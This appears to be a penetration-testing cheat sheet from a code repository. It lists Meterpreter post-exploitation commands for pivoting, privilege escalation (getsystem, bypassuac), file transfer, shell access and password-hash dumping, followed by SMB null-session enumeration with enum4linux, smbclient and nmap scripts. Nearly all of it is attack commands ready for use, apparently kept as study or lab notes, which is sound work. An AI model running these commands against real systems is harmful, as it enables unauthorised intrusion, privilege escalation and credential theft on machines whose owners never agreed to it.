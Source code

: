 ### meterpreter
```bash
meterpreter>run autoroute -s 172.16.50.0/24
background

sessions -l
sessions -i 1

sysinfo, ifconfig, route, getuid
getsystem (privesc)
bypassuac

download x /root/
upload x C:\\Windows
shell

use post/windows/gather/hashdump
```

### windows shares with null sessions

enumeration with kali/parrot tools:
```
nmblookup -A 10.16.64.223
smbclient -L //10.16.64.223 -N share
smbclient //10.16.64.223/share -N mount

enum4linux -a 10.10.10.13
```

enumeration with nmap:
```bash
ll /usr/share/nmap/scripts/ | grep smb-enum-
-rw-r--r-- 1 root root  4846 Jan  9  2019 smb-enum-domains.nse
-rw-r--r-- 1 root root  5931 Jan  9  2019 smb-enum-groups.nse
-rw-r--r-- 1 root root  8045 Jan  9  2019 smb-enum-processes.nse
-rw-r--r-- 1 root root 27262 Jan  9  2019 smb-enum-services.nse
-rw-r--r-- 1 root root 12057 Jan  9  2019 smb-enum-sessions.nse
-rw-r--r-- 1 root root  6923 Jan  9  2019 smb-enum-shares.nse
-rw-r--r-- 1 root root 12531 Jan  9  2019 smb-enum-users.nse

nmap --script=smb-enum-users 192.168.1.10
```

#### null sessions
1) Use "enum4linux -n" to make sure if "<20>" exists:
```bash
enum4linux -n 192.168.1.10
```

2) If "<20>" exists, it means Null Session could be exploited. Utilize the following command to get more details:
```bash
enum4linux 192.168.1.10
```
